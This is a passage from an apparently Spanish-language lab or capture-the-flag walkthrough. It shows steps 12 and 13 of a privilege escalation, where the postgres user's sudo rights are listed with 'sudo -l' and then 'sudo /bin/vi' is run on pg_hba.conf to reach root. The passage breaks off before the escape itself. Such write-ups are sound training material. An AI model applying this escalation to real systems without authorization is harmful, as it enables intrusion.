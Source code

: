 ![](../img/3280ff635467b648f7cace4ac7fe98aa.png)

## 🧨 Paso 12 – Escalada de privilegios con `sudo -l`

### 🧠 Objetivo: Comprobar si el usuario actual (`postgres`) tiene privilegios de `sudo` que permitan escalar a root.

### 🔹 Comando ejecutado:

```bash
sudo -l
```

### 📌 Resultado:

- El usuario `postgres` puede ejecutar: (como root)

![](../img/720172c61d3b16d225d9a5b432aad816.png)

## 🔓 Paso 13 – Abuso de `vi` para conseguir acceso root

### 🛠️ Objetivo: Escalar privilegios a `root` usando `vi` con permisos `sudo`.

### 🔹 Comando ejecutado:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
